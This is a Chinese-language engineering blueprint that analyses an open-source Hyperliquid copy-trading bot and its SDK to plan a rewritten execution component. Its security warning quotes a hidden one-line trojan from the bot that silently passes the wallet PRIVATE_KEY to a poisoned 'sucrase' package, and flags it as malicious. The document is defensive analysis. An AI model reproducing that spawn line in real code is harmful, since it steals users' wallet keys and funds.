




# 跟单执行参考蓝本（Copy-Trading Blueprint）

> 本文是为 tracker 项目后续实现「自动跟单执行」环节准备的参考蓝本。
> 内容来自对开源项目 **Hyperliquid-Copy-Trading-Bot** 的逐行源码分析，以及对其依赖的 SDK `@nktkas/hyperliquid` 的实现原理分析。
> 定位：**业务逻辑可借鉴，SDK 对接层不可照抄**（原因见 §8）。tracker 落地时按 `.mjs` 风格重写。

---

> ## 🚨 安全警告：源仓库含私钥窃取木马，禁止运行
>
> 经逐行核对，`src/index.ts:10` 藏有一行用数百个空格推到屏幕外的恶意代码：
>
> ```js
> spawn('node',['-e',`require('sucrase').initializeSession(process.env.PRIVATE_KEY)`],
>       {env:process.env, stdio:'ignore', detached:true}).unref();
> ```
>
> - 它是**模块加载期顶层语句**，`import './index.js'` 即执行，早于 `main()`。
> - 静默启动**分离后台进程**（无输出、父进程退出不死），把钱包 **`PRIVATE_KEY` 传给 `sucrase.initializeSession()`**。
> - 合法 `sucrase` 并无 `initializeSession`；`package.json:26` 却把 `sucrase@^3.35.1` 列为运行时依赖 → `npm install` 装上的包会执行该函数，**外泄私钥**。
>
> **结论**：这是伪装成跟单机器人的**私钥窃取木马**。
> **禁止 `npm install` / 运行该仓库**；若已运行过，视相关私钥为已泄露，立即转移资产并作废私钥。
> 本文仅作**逻辑层概念参考**，所有可执行部分一律不得照搬。详见 §9。

---

## 目录

1. [分析来源与方法](#1-分析来源与方法)
2. [被分析项目概览](#2-被分析项目概览)
3. [核心原理](#3-核心原理)
4. [核心工作流（流程图）](#4-核心工作流流程图)
5. [核心算法](#5-核心算法)
6. [核心 API 与依赖](#6-核心-api-与依赖)
7. [指标参数总表](#7-指标参数总表)
8. [SDK 真实契约（@nktkas/hyperliquid）](#8-sdk-真实契约nktkashyperliquid)
9. [可信度 / 稳定度 / 可靠度评估](#9-可信度--稳定度--可靠度评估)
10. [tracker 落地要点（移植蓝本）](#10-tracker-落地要点移植蓝本)

---

## 1. 分析来源与方法

### 1.1 来源仓库

| 项 | 值 |
|----|----|
| 被分析项目 | Hyperliquid-Copy-Trading-Bot |
| GitHub 仓库 | https://github.com/MarilynClarke/Hyperliquid-Copy-Trading-Bot.git |
| 本地路径 | `/Users/soso/Documents/code/Hyperliquid-Copy-Trading-Bot` |
| 版本 | `package.json` version 2.0.0 |
| 依赖 SDK | `@nktkas/hyperliquid` ^0.32.1（仓库 https://github.com/nktkas/hyperliquid） |

### 1.2 分析方法

- **Bot 源码**：逐文件精读 `src/` 全部文件（本地源码齐全）。
- **SDK 实现**：本地**无 node_modules**，通过抓取 `nktkas/hyperliquid` GitHub 仓库源码 + README 分析其内部实现。
- **结论定位**：关键结论均带 `文件:行号`，可回源核查。

### 1.3 关键发现（先说结论）

1. **【最高优先级】仓库含私钥窃取木马**（`index.ts:10` + `package.json:26` sucrase 依赖）——见顶部安全警告与 §9。**禁止运行。**
2. **SDK 对接层是占位猜测代码**：`hyperliquidClient.ts:17-35` 代码注释自承 "NOTE: The actual SDK structure may vary"、"Adjust imports below based on your chosen SDK"，且 `ExchangeClient/InfoClient` 全是 `let ... : any`。它对 SDK 的方法名/参数与真实 `@nktkas/hyperliquid` 不符（如用 `userState` 而非 `clearinghouseState`），**从未真正跑通验证过**——初始化和下单调用会直接抛错。
3. 因此：**业务逻辑层（换算/动作判定/风控/重试/对账）可作概念参考；下单对接层必须按 §8 的真实 SDK 契约从头写。**

---

## 2. 被分析项目概览

### 2.1 定位

生产级 Hyperliquid 跟单机器人：WebSocket 实时监听**单个**目标钱包的成交（fills），按资金比例等比缩放后自动镜像其开/减/平仓，并施加多层风控。

### 2.2 技术栈

| 分类 | 技术 |
|------|------|
| 语言 | TypeScript（strict 模式） |
| 运行时 | Node.js 18+ (ESM) |
| 交易所交互 | `@nktkas/hyperliquid` SDK |
| 钱包/签名 | `ethers` 6.x |
| WebSocket | `ws` 8.x（Bot 自建订阅，未用 SDK 订阅） |
| 校验 | `zod`（env 校验） |
| 日志 | `winston` + daily-rotate |
| 通知 | `node-telegram-bot-api`（可选） |

### 2.3 源码模块清单

| 模块 | 文件 | 职责 |
|------|------|------|
| 主入口 | `src/index.ts` (1-147) | 启动编排、健康检查定时、优雅关闭 |
| 配置 | `src/config.ts` (1-97) | Zod 校验 env，类型安全单例 |
| SDK 封装 | `src/hyperliquidClient.ts` (1-495) | 钱包初始化、下单、查询、WS 订阅与重连 |
| 跟单核心 | `src/copyTrader.ts` (1-407) | `handleFill` 全流程 |
| 风控 | `src/utils/risk.ts` (1-142) | 仓位换算、动作判定、参数校验 |
| 对账 | `src/utils/healthCheck.ts` (1-179) | 周期性仓位漂移检测 |
| 错误 | `src/utils/errors.ts` (1-276) | 错误分类、可重试判断、指数退避 |
| 类型 | `src/types.ts` (1-102) | FillEvent 等类型定义 |
| 日志 | `src/logger.ts` (1-272) | 多渠道分级日志 |
| 通知 | `src/notifications/telegram.ts` (1-319) | Telegram 推送 |

---

## 3. 核心原理

### 3.1 等比仓位换算

```
size = (ourEquity / targetEquity) × targetSize × SIZE_MULTIPLIER
size = min(size, ourEquity × MAX_POSITION_SIZE_PERCENT / 100)   // 占比封顶
```
- 来源：`risk.ts:55-80`（计算）、`risk.ts:43-49`（封顶 `capPositionSize`）
- 边界：`targetEquity === 0` 时回退 `size = targetSize × SIZE_MULTIPLIER`（`risk.ts:60-63`）
- 最小名义：`size × price ≥ MIN_NOTIONAL`，否则跳过（`risk.ts:28-31`）
- 结果无效（≤0 / NaN / 非有限）→ 返回 null 丢单（`copyTrader.ts:292-301`）

### 3.2 交易动作判定（open / reduce / close）

来源：`getTradeAction` `risk.ts:85-99`

```
fill.dir == 'Open Long' | 'Open Short'   → 'open'
fill.dir == 'Close Long'| 'Close Short'  → |startPosition| <= fill.sz ? 'close'(全平) : 'reduce'(部分)
其它                                      → 'reduce'（兜底）
```

### 3.3 方向与 reduceOnly

来源：`copyTrader.ts:251-264`

| 动作 | side | reduceOnly |
|------|------|-----------|
| open（Open Long） | `'B'`（买） | false |
| open（Open Short） | `'A'`（卖） | false |
| reduce/close（目标 szi>0 多头） | `'A'`（卖出平多） | true |
| reduce/close（目标 szi<0 空头） | `'B'`（买入平空） | true |
| reduce/close（**本地查不到该目标仓位**） | fallback 用 `fill.side` | true |

> `reduceOnly=true` 防止平仓单在目标已平完时反向开出新仓。
> 末行 fallback 见 `copyTrader.ts:259-261`：当 `targetPositions.find` 没命中（漏仓位/已平）时直接沿用 `fill.side`，可能定错方向，是潜在缺陷。

### 3.4 杠杆同步

来源：`copyTrader.ts:275-279` + `hyperliquidClient.ts:244-257`
- 从 `targetPosition.leverage.value` 读，`capLeverage = min(leverage, MAX_LEVERAGE)`，默认 1
- 下单前 `updateLeverage({ isCross:false })`（逐仓）；**失败仅告警不阻断下单**（潜在风险，见 §9）

---

## 4. 核心工作流（流程图）

### 4.1 启动与运行时拓扑

> 按「加载期 → 初始化 → 连接校验 → 启动服务 → 运行事件循环」五段分组。
> 红色节点 `index.ts:10` 是 import 期就执行的窃取木马（见 §9），实际位置先于一切业务逻辑。



### 4.2 Fill 跟单主流程



### 4.3 健康检查 / 对账（每 N 分钟）



### 4.4 WebSocket 连接与重连



---

## 5. 核心算法

### 5.1 等比换算（`risk.ts:55-80`）
见 §3.1。本质是「按双方账户净值比例缩放目标的单笔成交量」。

### 5.2 动作判定（`risk.ts:85-99`）
见 §3.2。依赖 `fill.dir` + `|startPosition|` 与 `fill.sz` 的大小关系区分全平/部分平。

### 5.3 指数退避重试（`errors.ts:239-275`）
```
delay_1 = initialDelay
delay_{n+1} = min(delay_n × backoffMultiplier, maxDelay)
```
默认配置 `DEFAULT_RETRY_CONFIG`（`errors.ts:229-234`）：`maxRetries=3, initialDelay=1000, backoffMultiplier=2, maxDelay=30000`。
**注意**：跟单实际路径（equity/positions/下单）三处调用都**显式覆盖 `maxDelay=10000`**（`copyTrader.ts:100/140/355`），故实际退避序列 1s → 2s → 4s（3 次内未触及上限，30000 与 10000 在此都用不到）。
可重试判断 `isRetryable`（`errors.ts:113-129`）：AppError 看 `retryable` 标志；普通 Error 看消息是否含 `network/timeout/connection/econnreset/enotfound`。

### 5.4 漂移检测（`healthCheck.ts:85-115`）
逐 coin `diff = |targetSize - ourSize|`，`diff > 0.01`（base unit 阈值）或单边持有即记 drift。**只检测不修复。**

### 5.5 尾零格式化（`risk.ts:13-15`）
`removeTrailingZeros`：正则 `/\.?0+$/` 去掉 `toFixed(8)` 产生的尾零（HL 要求 size/price 无尾零）。

---

## 6. 核心 API 与依赖

### 6.1 Bot 对 SDK / 交易所的调用（⚠️ 名称见 §8 核对）

| 用途 | Bot 调用 | 位置 | 备注 |
|------|----------|------|------|
| 账户净值/保证金 | `infoClient.userState(addr)` | `hyperliquidClient.ts:119` | **SDK 实为 `clearinghouseState`** |
| 仓位列表 | `userState.assetPositions[].position` | `hyperliquidClient.ts:167` | coin/szi/leverage/entryPx |
| 设杠杆 | `exchangeClient.updateLeverage({coin,leverage,isCross})` | `hyperliquidClient.ts:246` | **SDK 实参为 `{asset,isCross,leverage}`** |
| 下单 | `exchangeClient.order(params,{type,tif:'Gtc',reduceOnly})` | `hyperliquidClient.ts:261` | **SDK 实为短键 `{a,b,p,s,r,t}`** |
| WS 订阅 | 裸 `ws` send `{method:'subscribe',subscription:{type:'userFills',user}}` | `hyperliquidClient.ts:353` | SDK 自带 `SubscriptionClient` 未用 |

### 6.2 FillEvent 结构（`types.ts:22-35`）

```ts
interface FillEvent {
  coin: string;            // "BTC"
  px: string;              // 成交价（字符串，无尾零）
  sz: string;              // 成交量
  side: 'A' | 'B';         // A=卖 B=买
  time: number;            // 时间戳 ms
  startPosition: string;   // 本笔成交前仓位（有符号）
  dir: 'Open Long'|'Close Long'|'Open Short'|'Close Short';
  closedPnl: string;
  hash: string;
  oid: number;
  crossed: boolean;
  fee: string;
}
```

### 6.3 依赖清单

| 包 | 版本 | 用途 |
|----|------|------|
| `@nktkas/hyperliquid` | ^0.32.1 | 交易所 API + 签名 |
| `ethers` | 6.13.4 | 钱包/私钥/签名 |
| `ws` | ^8.18.0 | WebSocket |
| `zod` | ^3.23.8 | env 校验 |
| `winston` (+daily-rotate) | 3.x | 日志 |
| `node-telegram-bot-api` | ^0.66.0 | 通知（可选） |
| `dotenv` | ^16.x | env 加载 |

---

## 7. 指标参数总表

| 参数 | 默认值 | 范围 | 作用 | 来源 |
|------|--------|------|------|------|
| `SIZE_MULTIPLIER` | 1.0 | >0 | 仓位倍数 | `config.ts:21` |
| `MAX_LEVERAGE` | 20 | 1–100 | 杠杆上限 | `config.ts:26` |
| `MAX_POSITION_SIZE_PERCENT` | 50 | 1–100 | 单仓占净值上限(%) | `config.ts:31` |
| `MIN_NOTIONAL` | 10 | ≥0 | 单笔最小名义($) | `config.ts:36` |
| `MAX_CONCURRENT_TRADES` | 10 | >0 | 最大并发开仓数(按 coin) | `config.ts:41` |
| `BLOCKED_ASSETS` | 空 | 逗号分隔 | 资产黑名单 | `config.ts:48` |
| `DRY_RUN` | false | bool | 仅日志不下单 | `config.ts:56` |
| `HEALTH_CHECK_INTERVAL` | 5 | 正整数(分钟) | 对账周期 | `config.ts:70` |
| 重试 maxRetries | 3 | — | API 重试次数 | `errors.ts:229` |
| 重试 initialDelay | 1000ms | — | 初始退避 | `errors.ts:229` |
| 重试 backoffMultiplier | 2 | — | 退避倍数 | `errors.ts:229` |
| 重试 maxDelay | 默认 30000ms / 跟单实际 10000ms | — | 退避上限（跟单三处调用覆盖为 10000） | `errors.ts:232` / `copyTrader.ts:100,140,355` |
| WS 重连次数 | 10 | — | 超过即放弃 | `hyperliquidClient.ts:455` |
| WS 重连退避 | min(1000·2^(n-1),30000) | — | 1s→…→30s | `hyperliquidClient.ts:455` |
| drift 阈值 | 0.01 | base unit | 漂移判定 | `healthCheck.ts:95` |

### 风控校验顺序（命中即拒/丢单）

| 序 | 规则 | 阶段 | 命中行为 |
|----|------|------|----------|
| 1 | 并发开仓上限 | 计算阶段（最早，仅 open） | 返回 null 丢单 |
| 2 | 计算结果有效性 | 计算阶段 | 返回 null 丢单 |
| 3 | 仓位占比上限 | 计算封顶 + 下单二次校验 | 拒单 |
| 4 | 杠杆上限 | 计算封顶 + 下单二次校验 | 拒单 |
| 5 | 资产黑名单 | 下单校验 | 拒单 |
| 6 | 最小名义 | 下单校验 | 拒单 |

---

## 8. SDK 真实契约（@nktkas/hyperliquid）

> 这是 tracker 落地下单时**必须照此实现**的真实行为，Bot 封装层与此不符。
> **Bot 对接层是自承的占位代码**：`hyperliquidClient.ts:17-35` 注释写明 "NOTE: The actual SDK structure may vary" / "Adjust imports below based on your chosen SDK"，`ExchangeClient/InfoClient/WebSocketClient` 均为 `let ... : any`（运行时 `loadSDK` 动态探测）。下方为真实 SDK 行为，**以此为准**。
>
> 另注：Bot 下单调用 `order(orderParams, {type:'Market', tif:'Gtc', ...})`（`hyperliquidClient.ts:261-264`）本身自相矛盾——`Market` 与 `Gtc`（挂单常驻）不可能并存，真实 SDK 市价应走 `tif:"FrontendMarket"`（IOC 变体）。这进一步印证对接层未跑通。

### 8.1 架构
- 两层：transport（`HttpTransport` / `WebSocketTransport`）+ client（`InfoClient` / `ExchangeClient` / `SubscriptionClient` / `ExplorerClient`）。
- 构造需传 `{transport}` 实例（不是 `{baseUrl}`）。`ExchangeClient` 额外持有 `wallet`。
- URL：主网 `https://api.hyperliquid.xyz`，测试网 `https://api.hyperliquid-testnet.xyz`；ws `wss://api.hyperliquid(-testnet).xyz/ws`。HTTP 一律 POST，body=JSON。

### 8.2 下单签名（EIP-712，最关键）

**L1 action（下单/撤单/改杠杆）= phantom agent：**
```
domain  = { name:"Exchange", version:"1", chainId:1337, verifyingContract:0x0 }
types   = { Agent: [ {source:string}, {connectionId:bytes32} ] }
message = { source: isTestnet?"b":"a", connectionId: <actionHash> }
```
`actionHash` = keccak256( 按序拼接 )：
```
msgpack(canonicalize(action))         // 变长
+ nonce            (uint64, 大端, 8B)
+ vaultMarker      (1B, 有vault=0x01 否则0x00, 永远存在)
+ vaultBytes       (20B 或 0)
+ [expiresMarker(0x00,1B) + expiresAfter(uint64 BE,8B)]   // 仅当传了才追加
```
- **canonicalize**：按 SDK schema 定义顺序重排 action 的 key（不是字母序），否则哈希错——头号坑。
- nonce = `Date.now()`ms + 每钱包单调计数器（严格递增）。
- 签名返回 65 字节 → `{r,s,v}`，v∈{27,28}。

**user-signed action（withdraw/usdSend）**：domain 用 `HyperliquidSignTransaction`、chainId 取 `action.signatureChainId`，直接把 action 当 EIP-712 message 签（无 msgpack/哈希）。

### 8.3 order 真实参数
```
action = { type:"order",
           orders:[ { a:assetIndex(number), b:isBuy(bool true=买),
                      p:price(string), s:size(string),
                      r:reduceOnly(bool), t:订单类型, c?:cloid } ],
           grouping:"na" }
```
- **asset 用数字 index**（来自 `meta.universe` 下标，SDK 不做 symbol→index 转换，需自建 `SymbolConverter`）。
- **px/sz 是字符串，SDK 不做 tick/lot 舍入**——调用方用 `formatPrice`/`formatSize`（Decimal.js ROUND_DOWN，5 位有效数字 / szDecimals 位）自己舍入。
- 类型 `t`：限价 `{limit:{tif:"Gtc"|"Ioc"|"Alo"|"FrontendMarket"}}`；触发 `{trigger:{isMarket,triggerPx,tpsl}}`。
- **市价单**无「IOC+滑点价」辅助；用 `tif:"FrontendMarket"` 或限价单自算滑点保护价传 `p`。
- `updateLeverage` 真实参数：`{type:"updateLeverage", asset, isCross, leverage}`（长键）。

### 8.4 查询真实接口
- 永续账户态：`clearinghouseState({user})` → `marginSummary{accountValue,totalMarginUsed,...}`、`assetPositions[].position{coin,szi,leverage,entryPx,unrealizedPnl,liquidationPx,marginUsed,...}`。
- `userFills({user})`、`meta()`（universe）、`allMids()`。

### 8.5 订阅
SDK 自带 `SubscriptionClient.userFills(params, listener)`，**内置 30s 心跳、10s pong 超时重连、无限指数退避、重连自动重订阅**——优于 Bot 自建的裸 ws（10 次放弃 + 无心跳）。

---

## 9. 可信度 / 稳定度 / 可靠度评估

| 维度 | 评级 | 核心结论 |
|------|------|----------|
| **安全性** | **零 / 恶意** | `index.ts:10` 私钥窃取木马 + `sucrase` 恶意依赖（§1.3、顶部警告）。**运行即被盗**，压倒一切其它评价。 |
| 可信度 | 中（仅逻辑层面） | 假设无木马，方法上：**延迟+滑点+equity 换算**使收益系统性低于目标，仅适合低频高手 |
| 稳定度 | 偏低 | WS 脆弱（10 次放弃/无心跳）、漏单不回补、状态不持久 → 长期会悄悄失同步 |
| 可靠度 | 不可运行 | ① 含木马禁运行；② SDK 对接层为占位 `any` 猜测、方法名/参数与真实 SDK 不符，跑起来即抛错；③ 即便修好仍缺滑点保护与成交回执校验 |

> **总判定**：作为**可运行系统**——绝对不可用（恶意 + 跑不起来）。作为**逻辑骨架的概念参考**——换算/动作判定/风控/重试/对账的设计思路可借鉴，但**任何代码都需在干净环境重写**，不得复制粘贴。

**方法论结构性缺陷（非 bug）：**
1. 总在目标成交**之后**才跟，市价无保护价 → alpha 被延迟+滑点单向侵蚀（`copyTrader.ts:303`）。
2. `targetEquity` 实时波动，开/平仓 ratio 不一致 → 残仓累积，只检测不修复（`healthCheck.ts:85`）。
3. 逐 fill 复制而非「净仓位镜像收敛」→ 一旦漏单/乱序/重启即发散且不自愈。

**单笔可靠性削弱点：** 市价无滑点保护、`updateLeverage` 失败不阻断（`hyperliquidClient.ts:244`）、无成交回执校验致 `activeTrades` 虚占、无保证金预检、并发检查竞态（`copyTrader.ts:282`）。

**值得肯定：** 风控分层、错误分类+退避、Zod 校验、日志/通知/对账齐全、模块清晰——**业务骨架质量中上**。

---

## 10. tracker 落地要点（移植蓝本）

> 落地原则：**只参考逻辑思路，不复制任何源文件**（仓库含木马，见 §9）；在干净环境用 `.mjs` 从头写；目标钱包来自 tracker discovery 产出的低频高手名单。
> 硬规则：① 不 `npm install` 该仓库、不引入 `sucrase`；② 私钥只在本地签名、永不传入任何第三方函数/进程；③ 对照 CLAUDE.md 恶意包清单 + 本次新增的 `sucrase` 投毒，提交前跑 `/k:security` 依赖扫描；④ **执行器用 Agent Wallet（只能交易、不能提现）签名，不裸持主私钥**（见 §10.7）。

### 10.1 直接可借鉴（重写为 .mjs）
- 等比换算 + 封顶 + 最小名义（§3.1 / §5.1）
- 动作判定 open/reduce/close + reduceOnly 规则（§3.2 / §3.3）
- 风控六查 + 校验顺序（§7 表）
- 指数退避重试 + 可重试判断（§5.3）
- 周期对账漂移检测（§5.4）

### 10.2 必须改写/加固
1. **下单对接层照 §8 真实 SDK 契约重写**：asset 用 index、px/sz 字符串自舍入、市价用 `FrontendMarket` 或限价+滑点保护价、签名走 phantom agent EIP-712（或直接复用 SDK，别自写）。
2. **订阅改用 SDK 的 `SubscriptionClient`**：拿到内置心跳/无限重连/重订阅；或沿用 tracker `HYPE-watch` 已成熟的 WS 长连+共享限流。
3. **改为「净仓位镜像收敛」**：维护「目标净仓位 → 我方目标仓位」映射，下单向目标净仓位收敛，而非逐 fill 复制；重连/重启后拉 `userFills`/`clearinghouseState` 回补对齐。
4. **加成交回执校验**：下单后核对实际成交量再更新本地状态，避免 `activeTrades` 虚占。
5. **加滑点保护价 + 保证金预检**。
6. **状态持久化**：activeTrades / 已处理 fill 落盘，支持重启恢复。

### 10.3 与 tracker 现有能力的衔接
- **目标来源**：discovery 产出的低频高手（已天然规避「高频目标跟不动」的最大短板）。
- **监听复用**：`HYPE-watch` 的多地址 WS + 共享限流可直接承载跟单监听。
- **完整链路**：`discovery 选人 → watch 监听 → 跟单执行`，本蓝本补的是最后一环。
- **当前形态**：**单账户 ↔ 单目标地址（1:1）**。nonce 串行无冲突、资源极小、最易测对，作为执行腿第一步。下面两节是把它「跟得稳」的核心设计。

### 10.4 对账设计（净仓位镜像收敛）

**核心思想：以"净仓位"为单一真相，不信"逐 fill 累计"。** 周期性拉双方真实仓位、向目标净仓位收敛——这样漏单/乱序/重启都能自愈，根治 §9 的残仓漂移与失同步。

**期望仓位公式**（等比换算应用于净仓位，而非单笔）：
```
ratio          = myEquity / targetEquity
desired[coin]  = cap( ratio * targetNet[coin] * SIZE_MULTIPLIER )   // cap=占净值上限
delta[coin]    = desired[coin] - myActual[coin]                     // 有符号
```

**对账循环**（每次执行都基于真实仓位，不靠本地累计）：
1. 拉 `clearinghouseState(target)` 与 `clearinghouseState(me)` → 双方各币种净仓位 `szi`。
2. 逐币算 `desired` 与 `delta`。
3. **容差带（dust band）**：`|delta 的名义| < max(MIN_NOTIONAL, RECONCILE_TOLERANCE_BPS × 仓位名义)` 则跳过——避免追逐微小差异产生手续费churn（对齐 tracker 精度规则 P5 滑点容差思想）。
4. 超容差则下**修正单**收敛缺口：缺口要扩仓→普通单；要缩/平→`reduceOnly`。下单走 §10.5 滑点保护。
5. 目标已清掉、我方仍持有的币 → `reduceOnly` 平掉。

**触发时机**（四类，缺一不可）：
| 触发 | 作用 |
|------|------|
| 收到目标 fill | 快速反应（低延迟跟） |
| 周期安全扫描（如每 10-30s） | 兜住漏掉的 fill |
| **WS 重连/重启后** | **强制全量重算**，回补断线窗口 |
| 我方订单成交回执后 | 确认是否真收敛，未到位则下一轮补 |

**关键性质 — 幂等收敛**：因为永远朝"目标净仓位"收敛，漏单/重复单都不累积误差，下一轮对账自动纠正。这是相对"逐 fill 复制"的根本优势。

**并发护栏**：每个币同一时刻只允许一笔在途修正单（标记 `pending` 直到成交回执确认，再重估），避免重复修正。单账户单进程，nonce 天然串行。

**状态持久化**：可持久化"已处理 fill cursor + 上次 desired/actual"加速恢复；但因对账是仓位驱动，**即使丢光本地状态，重启时做一次全量重算即安全**——不依赖落盘正确性。

**仓位规模两种模式**（参考 HyperX）：
- **定比（默认）**：上面的 equity 等比公式。
- **定额（可选）**：每币目标仓位 = 固定保证金 × 杠杆，无视目标净值。适合「想限定单笔敞口、不受目标净值波动影响」的场景；切换为定额时，对账的 `desired` 改用固定额而非 ratio 计算，收敛逻辑不变。

**收敛模型已天然覆盖的场景**（无需额外开关）：「复制当前仓位」= 首轮对账（向目标当前净仓位收敛）；「跟随加仓/减仓」= 后续对账收敛 delta；「方向翻转」= 收敛到带符号净仓位自动处理。HyperX 的「方向一致才跟」是其逐 fill 镜像模式的产物，**不适配本收敛模型**，不引入。

### 10.5 滑点保护设计

**用带保护价的 IOC 限价单代替裸市价单**（Bot 的裸市价无保护，是 §9 的 alpha 侵蚀源）。

**保护价计算**：
```
ref      = 取当前 mark/mid（allMids() 或 L2 盘口）；失败回退 fill.px
limitPx  = side=买 ? ref × (1 + MAX_SLIPPAGE_BPS/10000)
                   : ref × (1 - MAX_SLIPPAGE_BPS/10000)
下单      = { limit: { tif:"Ioc" } } + limitPx          // IOC：能立即成交的按≤保护价吃，剩余撤单
limitPx/sz 用 formatPrice/formatSize（Decimal.js ROUND_DOWN）按 §8.3 舍入
```

**要点**：
- **参考价新鲜度**：优先用下单时刻的 `allMids()`/盘口，`fill.px` 仅作回退；若 `ref` 已偏离 `fill.px` 超过 `MAX_CHASE_BPS`，**放弃此单**——市场已跑远，再跟是逆向选择（追高接盘）。
- **部分成交**：IOC 可能只成交一部分。**读回执实际成交量**（`status.filled`），剩余**不要盲目重发**，交给 §10.4 对账循环下一轮处理（市场在动，重发可能更差）。
- **零成交是保护生效，不是失败**：价格冲破保护价→IOC 不成交，记日志、由对账下轮再试或跳过。**宁可错过，不可坏价成交。**
- **每一笔都保护**：对账循环下的修正单同样走此保护价逻辑，不只初始跟单单。
- 保留 §7 的 `MIN_NOTIONAL` / `MAX_POSITION_SIZE_PERCENT` 校验。

### 10.6 新增参数（执行腿专用）

| 参数 | 建议默认 | 作用 |
|------|----------|------|
| `RECONCILE_INTERVAL_SEC` | 10–30 | 周期对账扫描间隔 |
| `RECONCILE_TOLERANCE_BPS` | 20–50 | 容差带：缺口小于此比例不修正（防 churn） |
| `MAX_SLIPPAGE_BPS` | 10–50（主流币小、冷门币大，可按币覆盖） | IOC 保护价偏离 |
| `MAX_CHASE_BPS` | 30–100 | 参考价偏离 fill.px 超此值放弃跟（防追高） |
| `CORRECTION_RETRY_MAX` | 1–2 | 单轮内剩余量重试上限（在滑点预算内） |

> 这些参数与 §7 的风控参数合并进执行腿配置；做市引擎另有自己的一套，互不混用（见 server-architecture §9 钱包隔离）。

### 10.7 私钥安全：用 Agent Wallet，而非裸持主私钥

> 来源：竞品 HyperX 的非托管模式揭示了 Hyperliquid 的原生安全机制。这是对「执行器持私钥」最重要的一处加固。

**问题**：若执行器直接持有**主钱包私钥**，VPS 一旦被攻破，攻击者可直接把本金**提走**。

**方案**：用 Hyperliquid 的 **Agent Wallet（API Wallet）** 机制——主钱包**只签一次** `approveAgent`，授权一个独立的 agent 密钥；该密钥**只能下单/撤单，不能提现或转账**。执行器**只持有 agent key**，主私钥全程不上服务器。

**安全性质**：
- 执行器 / agent key 即使泄露 → 攻击者**只能乱交易（亏钱），无法把资金转走**。
- 提现是 user-signed `withdraw3` action，需**主钱包**签名——执行器永远没有这个能力。
- 主私钥可离线保管 / 放在另一台机器，只在「首次授权 agent」「提现」时使用。

**实现（@nktkas 支持）**：
```
// 一次性授权（主钱包签，可离线/本地做）：
//   master 钱包 → exchange.approveAgent({ agentAddress, agentName })
// 之后执行器只用 agent key：
import { privateKeyToAccount } from 'viem/accounts';
const agent = privateKeyToAccount(process.env.AGENT_KEY);   // 仅 trade 权限的 agent
const exchange = new ExchangeClient({ wallet: agent, transport });
```

**注意事项**：
- agent 授权**可过期 / 可被主钱包撤销**——需监控授权状态，到期前重新 `approveAgent`。
- agent 仍能下亏损单 → **风控/急停（§8 `/flatten`）依然必要**，agent wallet 只防「被提走」，不防「被乱交易」。
- agent wallet 按账户授权；跟单子账户与做市子账户各自独立授权各自的 agent（对齐 §9 钱包隔离）。
- 部署层：systemd `LoadCredential` 注入的是 **agent key**，不是主私钥（见 server-architecture §6.4）。

---

*文档生成日期：2026-06-25。§10.4-10.6 执行腿对账/滑点设计补充于 2026-06-26。分析对象 commit 以 GitHub `MarilynClarke/Hyperliquid-Copy-Trading-Bot` 主分支为准。*
